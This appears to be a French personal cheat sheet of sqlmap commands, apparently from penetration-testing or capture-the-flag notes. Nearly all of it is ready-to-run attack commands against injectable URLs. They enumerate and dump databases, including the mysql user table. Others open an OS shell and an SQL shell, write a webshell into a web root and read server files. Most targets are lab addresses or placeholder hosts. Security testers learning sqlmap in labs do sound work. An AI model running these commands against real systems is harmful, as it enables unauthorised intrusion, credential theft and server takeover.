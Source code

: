 # sqlmap

## pratique:

1. Faire un “copy to file” de la requete depuis burp
2. sqlmap -r <fichier> -a --batch



## en GET
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"

## en POST
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
     

## lister les tables:
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql --tables

#lister les tables d'une base
python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics

#lister les colonne d'une tables:
python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users

#dumper une seule table:
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql -D 'mysql' -T 'user' --dump

#tout dumper
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump-all

## dumper la base courante 
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump

#from and by Burp 
→ clid droit -> copy to file
→ sqlmap -r <file>
→ sqlmap --proxy=http://127.0.0.1:8080-

## sqlmap crawl  
sqlmap -u http://10.10.10.10 --crawl=1


## sqlmap shell  
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell


## upload webshell
sudo sqlmap -r sqli_search_productName --file-write=webshell.php --file-dest=c:/inetpub/wwwroot/webshell.php --batch

#lire un fichier:
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --file-read=/opt/lampp/htdocs/index.php


## checker les privs:
sqlmap -u 192.168.1.124/sqli/Less-1/?id=1 --privileges


## proxy
--temper pour le bypass de proxy


## Commande SQL:
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --dbms=mysql --sql-shell

sql-shell> SELECT * FROM blogs

## sous windows:
télécharger le projet et lancer: python ./sqlmap.py



